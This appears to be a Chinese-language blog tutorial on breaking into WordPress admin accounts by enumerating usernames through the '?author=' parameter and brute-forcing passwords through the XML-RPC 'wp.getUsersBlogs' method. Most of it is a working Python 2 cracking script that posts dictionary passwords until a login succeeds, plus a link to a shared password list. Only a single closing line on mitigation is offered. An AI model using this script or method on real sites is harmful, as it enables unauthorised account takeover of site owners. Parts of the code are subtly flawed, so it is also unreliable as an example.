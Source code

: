 首先要说一下，一个正常点的网站，你用暴力破解登录的话，都是几乎无法实现的，举个例子。
### 举个暴力破解QQ的例子：
	
> - 1.你暴力破解QQ密码，输入错误几次之后验证码也出来了。
> - 2.验证码的问题比较好搞，找个识图的代码，识别图片中的二维码，即可。继续破解。
> - 3.是的 二维码可以搞定，但是你输入错误次数超过30次之后，该账号24小时内再提交密码都无效了。

### 举个我自己亲测暴力破解wordpress站点管理员密码的例子：
我穷举wordpress 的账户密码，post到xxx.com/wp-admin.php上，结果：没几下我就发现网站打不开了。然后，用同事们的机器，也是打不开，我以为网站挂了，结果不是，我发现用3G网可以打开。看样wordpress直接屏蔽了我们的ip段，一个小时后又可以访问了。 所以我放弃了，对wp-admin.php的破解。

只能另辟蹊径。

----------
## 1.wordpress自带的 **author漏洞**。

wooyun曾经爆出的WordPress的一个bug，就是再主网址尾部追加/?author=index之后可以爆出user表中的id==index的账户名。
#  
比如： **http://xxx.com/?author?=1** 
查看网页源代码：
``` html
<html xmlns="http://www.w3.org/1999/xhtml">
<head>


    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>admin | 此处隐藏网站名</title>
	<!--  重点在这里 -->
``` 

比如： **http://xxx.com/?author?=2** 
查看网页源代码：
``` html
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta name="generator" content="WordPress 3.8.3" />
<meta name="robots" content="noodp,noydir" />

    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">


    <title>Nothing found for  ?author=2</title>
    <!--  重点在这里 -->
```
# 
ok，此处可以看出该站只有一个管理员 用户名是**admin**。
那么好了，我们暴力破解本来还需要猜用户名的，现在用户名不用猜了，只要猜密码，我们就省了很多事。

# 
## 2.wordpress自带的 **XMLRPC漏洞**。

wordpress官网对这个功能进行了解释：  [点击跳转到wordpress官网](http://codex.wordpress.org/XML-RPC_wp#wp.getUsersBlogs)
	
如下是我摘抄的一段：
# 
wp.getUsersBlogs

	检索用户的博客。
参数
	
	用户名的字符串
	字符串密码
返回值
	> - 数组
		 > - +    结构
	 - 布尔型 isAdmin
	 - 字符串 url
	 - 文章的 blogid 的字符串
	 - 字符串 blogName
	 - 字符串 xmlrpc

wp.getTags

	得到所有标记的列表。

...
...
...
# 
我就不在往下写了，下面的也是调用这个接口传递用户名，密码，传递其他参数用于获得一些数据的一些表，比如文章列表之类的。

从wordpress官网看其他的一些功能，可以看出这个xmlrpc应该是开放给客户端使用的。



# 
那么我们在wordpress主站地址后追加：**/xmlrpc.php**即可得到如下截图：
![](https://leanote.com/api/file/getImage?fileId=563cd1cb38f411249a000669)
**XML-RPC server accepts POST requests only**.
是告诉我们需要用post方式提交。

从这个文件名xmlrpc的命名来看，这里应该是提交xml格式的才对。
我们来试下模拟post提交，来验证我们的猜想：
# 
上图：
![](https://leanote.com/api/file/getImage?fileId=563cd1cb38f411249a00066b)

这里报了一个错误，说转换出错，很显然post提交不了。跟wordpress官网说的一样，这个接口需要提交xml格式的。

格式 的例子如下：
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
   <param><value>username</value></param>
   <param><value>password</value></param>
  </params>
</methodCall>
```
我试着在chrome里提交一下：
![](https://leanote.com/api/file/getImage?fileId=563cdfc138f41125df00074f)
这个接口已经走通了，为了测试这个接口如果出错不会被服务器拉黑ip，我刷新了20次，确定这个接口可用。终于放心了唉。

下面就是写个python程序，进行循环post xml进行验证了。


``` python

#  佛祖保留代码无bug 
'''
漏洞详情请查看：http://www.freebuf.com/articles/web/38861.html
'''
import urllib2
import re

def ReadMe():
    print """说明：
    1.在本文件同目录下新建usernames.txt、passwords.txt分别存入用户名、密码字典
    2.按提示输入WordPress站点(例如:www.freebuf.com)
    """

def GetUrl():
    urlinput=raw_input("请输入wordpress站点:")
    requrl="http://"+re.match(r"(http://)?(.*)",urlinput).expand('\g<2>')+"/xmlrpc.php"
    print "尝试利用:"+requrl
    return requrl
   
def Aviable(requrl):
    
    try:
        result = urllib2.urlopen(url=requrl).read()
    except urllib2.URLError:
        print "抱歉，此站点漏洞不可用"
        return False
    else :
        if result == "XML-RPC server accepts POST requests only.":
            print "\n该站点存在此漏洞,尝试破解中:"
            return True
        else :
            print "抱歉，此站点漏洞不可用"
            print "网页返回：\n    "+result
            return False
    
def Exploit():
    requrl=GetUrl()
    if Aviable(requrl) :
    #usernames.txt 文件中其实只有一个用户名，因为我们通过author漏洞获取到了管理的用户名。
        f_username=open("usernames.txt","r")
        f_password=open("passwords.txt","r")
        num=0
        Flag=0
        for name in f_username:
            if Flag == 1:
                break
            for key in f_password:
                if num % 10 == 0:
                    print "已尝试"+str(num)+"个"
                if len(key)<8:
                    continue #wordpress管理员密码长度最短是8  所以这里小于8的跳过
                reqdata='<?xml version="1.0" encoding="UTF-8"?><methodCall><methodName>wp.getUsersBlogs\
                        </methodName><params><param><value>'+ name + \
                        '</value></param><param><value>'+ key  +\
                        '</value></param></params></methodCall>'
                req = urllib2.Request(url=requrl,data=reqdata)
                result = urllib2.urlopen(req).read()
                num=num+1
                if "isAdmin" in result :
                    print "Got it !"
                    print "username :"+name+"password :"+key
                    Flag = 1
                    break
                    
                elif "faultString" and "403" in result :
                    continue 
                    
                else :
                    print "Unknown error"
        print "抱歉，在此字典中并未找到正确的密码"
        
if __name__ == '__main__' :
    ReadMe()
    Exploit()

```

# 
执行效果如下：

![](https://leanote.com/api/file/getImage?fileId=563cd4d638f411249a000681)



# 
wordpress不知道现在已经到了什么版本了，但是目前，这个漏洞还是存在的，避免这个漏洞方式很简单，关闭这个功能即可。
# 
PS：
	 补充点：有些人觉得自己的字典不够全，我这里共享一个别人的密码集合：
[点击跳转](http://www.xdowns.com/soft/8/114/2012/Soft_88561.html)



